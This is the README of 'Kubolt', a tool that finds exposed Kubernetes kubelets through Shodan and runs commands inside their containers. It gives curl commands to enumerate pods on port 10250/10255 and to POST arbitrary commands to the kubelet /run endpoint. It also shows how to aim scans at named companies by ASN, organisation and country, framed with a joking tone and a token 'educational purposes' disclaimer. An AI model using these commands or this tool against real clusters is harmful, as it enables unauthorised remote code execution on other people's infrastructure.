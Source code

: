 # Wat?
**Kubolt** is simple utility for scanning public unauthinticated kubernetes clusters and run commands inside containers

# Why?
Sometimes, the kubelet port 10250 is open to unauthorized access and makes it possible to run commands inside the containers using getrun function from [kubelet](https://github.com/kubernetes/kubernetes/blob/master/pkg/kubelet/server/server.go):
```go
// getRun handles requests to run a command inside a container.
func (s *Server) getRun(request *restful.Request, response *restful.Response) {
	params := getExecRequestParams(request)
	pod, ok := s.host.GetPodByName(params.podNamespace, params.podName)
	if !ok {
		response.WriteError(http.StatusNotFound, fmt.Errorf("pod does not exist"))
		return
	}
```

# How?
Okay, let's ask our friend Shodan :trollface:

The basic query is 
>ssl:true port:10250 404 

**Kubelet** uses port 10250 with SSL by default, 404 is the HTTP response without URL path. 

**Kubolt** asks Shodan by API for list of IP addresses and keeps them for other OSINT actions :grin:

Firstly, let's ask Kubelet for running pods and filter hosts where response doesn't contain `Unauthorized` and contain `container` so we could run command inside it. 
```bash
curl -k https://IP-from-Shodan:10250/runningpods/ 
```
Anyway, if you find the host without any running pods at the time, keep it for next time when pods might be started :grin: 

You can list all the available pods from these requests:
```bash
curl -k https://IP-from-Shodan:10250/pods/
#or
curl http://IP-from-Shodan:10255/pods/ 
```

Next **kubolt** parse response and generate a new request as below:
```bash
curl -XPOST -k https://IP-from-Shodan:10250/run/<namespace>/<PodName>/<containerName> -d "cmd=<command-to-run>" 
```
You can target companies more accurate using Shodan filters such as:
- asn
- org
- country
- net

# Install 
```bash
mkdir output
pip install -r requirements.txt 
```

# Run
```python3
python kubolt.py --query "asn:123123 org:'ACME Corporation'"
#or
python kubolt.py --query "org:'ACME Corporation' country:UK"
```

# Shodan 
**Kubolt** uses Shodan API and [Query Credits](https://help.shodan.io/the-basics/credit-types-explained) accordingly, if you run the tool without query filters then you will probably fire all your credits `¯\_(ツ)_/¯`  

# Demo
![demo](/github-scale.gif)

# Important
The Tool provided by the author should only be used for educational purposes. The author can not be held responsible for the misuse of the Tool. The author is not responsible for any direct or indirect damage caused due to the usage of the Tool.


